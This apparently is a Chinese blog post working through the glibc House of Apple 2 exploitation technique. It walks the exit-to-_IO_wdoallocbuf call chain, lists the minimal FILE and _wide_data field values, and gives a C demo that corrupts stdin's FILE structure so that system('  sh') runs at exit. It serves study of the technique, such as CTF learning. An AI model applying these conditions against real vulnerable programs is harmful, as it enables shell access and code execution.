








# 前言
houseofapple2应该是我的IO系列引路人了，一直被glibc里面的源码吓得头大，各种条件也是搞得不明不白的，一般只能照抄网上的条件去触发。

现在我的本地设置好了源码调试，又有各种符号表等等，总之我决定啃下houseofapple2，这篇文章暂时先总结houseofapple2的最低触发条件，下次试试把这些条件整合到一起，力求以最小内存大小实现houseofapple2触发
# 调试过程
我们知道houseofapple2的调用链是
```c
exit
->__run_exit_handlers
->_IO_cleanup
->_IO_flush_all_lockp
->_IO_OVERFLOW(这个是个宏定义，实际函数名可以看等会的图片)
->_IO_wdoallocbuf
->任意你设定好的可执行地址
```
本文就以沿着这条链子的调试过程作为线索，找到houseofapple2的最低触发条件
### exit->__run_exit_handlers

这里没有任何需要满足的条件，从图中右上源码上也可看出
### __run_exit_handlers->IO_cleanup

这里依然没有任何需要满足的条件
### _IO_cleanup->_IO_flush_all_lockp

这是不需要满足条件的最后一步，接下来几乎每一层都有特定条件需要满足
### _IO_flush_all_lockp->_IO_OVERFLOW


```c
if  (
        (
            (fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
             || 
            (   _IO_vtable_offset (fp) == 0
             && fp->_mode > 0
             && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
            )
        )
        && _IO_OVERFLOW (fp, EOF) == EOF
    )
```
我们需要进入_IO_OVERFLOW，所以显然我们要满足在` && _IO_OVERFLOW(fp,EOF) == EOF`之前的条件
也就是在`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`与
```c
(   _IO_vtable_offset (fp) == 0
    && fp->_mode > 0
    && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
)
```
中选择一个满足，这时候我们为了后面的条件同时满足，只能选择前者。
### _IO_OVERFLOW->_IO_wdoallocbuf

在这张图中可以看到必须不满足`if (f->_flags & _IO_NO_WRITES)`以及满足
```c
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```
才可以进入`_IO_wdoallocbuf(f)`


根据查询glibc源码，我们发现`_IO_CURRENTLY_PUTTING`的值为0x800
[roderick](https://bbs.kanxue.com/thread-273832.htm#%E5%88%A9%E7%94%A8_io_wfile_overflow%E5%87%BD%E6%95%B0%E6%8E%A7%E5%88%B6%E7%A8%8B%E5%BA%8F%E6%89%A7%E8%A1%8C%E6%B5%81)发现只要将`_flags`设置为0x68732020，就可以绕过关于flag的各种条件。在这里(0x68732020 & 0x800 = 0)


并且_flags会被当作我们最后执行函数的rdi。比如如果我们决定使用system函数，0x68732020还会被用作system函数的参数，也就是'  sh'。非常的巧妙
### _IO_doallocbuf->任意地址执行
这一步需要把fp->_vtable覆盖成_IO_wfile_jumps，否则会因为如下的检查而利用失败

还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址
# 利用条件
_IO_flush_all_lockp->_IO_OVERFLOW
需要满足`(fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)`
_IO_OVERFLOW->_IO_wdoallocbuf
需要不满足`if (f->_flags & _IO_NO_WRITES)`
以及满足
```c
if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
  {
    if (f->_wide_data->_IO_write_base == 0)
```

以及还需要把fp->_vtable覆盖成_IO_wfile_jumps
还需要把fp->_wide_data->_wide_vtable+0x68的位置设置为system或是其他利用地址

总结一下，如果是利用system函数获取shell，需满足如下条件
```
_flags == 0x68732020
fp->_mode == 0
fp->_IO_write_ptr > fp->_IO_write_base
fp->_vtable == _IO_wfile_jumps
fp->_wide_data->_IO_write_base == 0
fp->_wide_data->_wide_vtable+0x68 == &system
```

总结到这一步，发现其实也没想象中那么复杂，很多条件都是0，在内存中有时候本来就是0，根本不需要特别设置。
然后是我写的demo
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
int main()
{
    long libc_base = &printf - 0x60770;
    long _IO_2_1_stdin_ptr = libc_base + 0x219aa0;

    *(int*)(_IO_2_1_stdin_ptr + 0xc0) = 0;
     // fp->_mode = 0
    *(long*)(_IO_2_1_stdin_ptr + 0x28) = 1;
     // fp->_IO_write_ptr = 1
    *(long*)(_IO_2_1_stdin_ptr + 0x20) = 0;
     // fp->_IO_write_base = 0

    *(int*)(_IO_2_1_stdin_ptr + 0) =0x68732020;
    // fp->_flags = '  sh'

    *(long*)(_IO_2_1_stdin_ptr + 0xd8) = libc_base + 0x2160c0;
    // fp->_vtable = _IO_wfile_jumps
    
    long wide_data = *(long*)(_IO_2_1_stdin_ptr + 0xa0);
    *(long*)(wide_data + 0x18) = 0;
    // fp->_wide_data->_IO_write_base = 0

    long fake_wide_data_vtable = malloc(0x300);
    *(long*)(wide_data + 0xe0) = fake_wide_data_vtable;
    *(long*)(fake_wide_data_vtable + 0x68) = &system;
    // fp->_wide_data->_wide_vtable + 0x68 = &system

    exit(0);
}
```
# 小表格
有时候在查找_IO_FILE_plus以及_wide_data对应的值的时候比较麻烦，就搞了一个小表格

